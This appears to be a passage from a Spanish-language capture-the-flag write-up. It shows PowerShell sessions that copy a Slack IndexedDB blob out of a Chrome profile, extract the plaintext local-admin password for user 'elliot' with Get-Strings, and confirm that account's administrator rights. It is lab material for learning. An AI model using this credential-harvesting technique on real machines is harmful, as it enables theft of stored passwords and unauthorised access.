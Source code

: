 ```powershell
PS C:\Users\elliot\Downloads> dir

    Directory: C:\Users\elliot\Downloads

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/16/2020   8:00 AM       83040752 SlackSetup.exe  

PS C:\Users\elliot\Downloads>
```

```powershell
PS C:\Users\elliot\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00> dir

    Directory: C:\Users\elliot\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00

Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       10/16/2020   9:28 AM         170673 7                             

PS C:\Users\elliot\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00> cp 7 C:\ProgramData  
PS C:\Users\elliot\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00>
```

Parece que hemos descubierto una contraseña asociada al usuario "elliot", la cual se menciona como una cuenta administrativa en el contexto de un sistema. Sin embargo, al revisar los administradores locales, encontramos que "elliot" está presente solo a nivel local y no a nivel de dominio. A pesar de esto, al intentar usar la contraseña asociada a "elliot", confirmamos que es válida a nivel local.

Sin embargo, al acceder al sistema mediante RDP y abrir una terminal de comando, descubrimos que tenemos privilegios de administrador, lo que nos permite leer la flag sin problemas. Esto indica que la contraseña de "elliot" otorga privilegios de administrador a nivel local en la máquina, lo que nos permite acceder a la flag.

```powershell
PS C:\ProgramData> Import-Module .\Get-Strings.ps1
PS C:\ProgramData> Get-Strings 7 | Select-String password

needs_initial_password_setF"
text"6local account username: elliot password: LetMeInAgain!{
text"6local account username: elliot password: LetMeInAgain!"
text"!MS01 admin account and password: {
text";MS01 admin account and password: ```elliot LetMeInAgain!```"  

PS C:\ProgramData>
```

```powershell
PS C:\ProgramData> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain  

Members

-------------------------------------------------------------------------------
Administrator
elliot
MEGAAIRLINE\Domain Admins
The command completed successfully.

```
